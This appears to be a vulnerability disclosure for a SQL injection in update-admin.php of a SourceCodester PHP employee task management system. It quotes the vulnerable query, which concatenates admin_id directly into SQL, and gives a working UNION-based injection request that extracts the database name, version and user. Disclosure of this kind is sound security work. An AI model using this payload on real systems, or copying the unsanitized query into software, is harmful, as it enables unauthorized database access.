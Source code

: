 # SOURCECODESTER / Employee Task Management System - SQL Injection update-admin.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)

## Vendor Homepage:
> https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html

## Affected Component
> /update-admin.php

## Code
```php
$sql = "SELECT * FROM tbl_admin WHERE user_id='$admin_id' ";
$info = $obj_admin->manage_all_info($sql);
$row = $info->fetch(PDO::FETCH_ASSOC);
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /update-admin.php?admin_id='%20union%20select%201%2cconcat('Database%20Name%3a%20'%2cdatabase())%2cconcat('Database%20Version%3a%20'%2cversion())%2cconcat('Database%20User%3a%20'%2cuser())%2c5%2c6%2c7%20--%20- HTTP/1.1
Host: 127.0.0.1
Research-By: NoChizPlz
```

## Screenshot
![img.png](SQL%20Injection%20-%20update-admin%2Fimg.png)


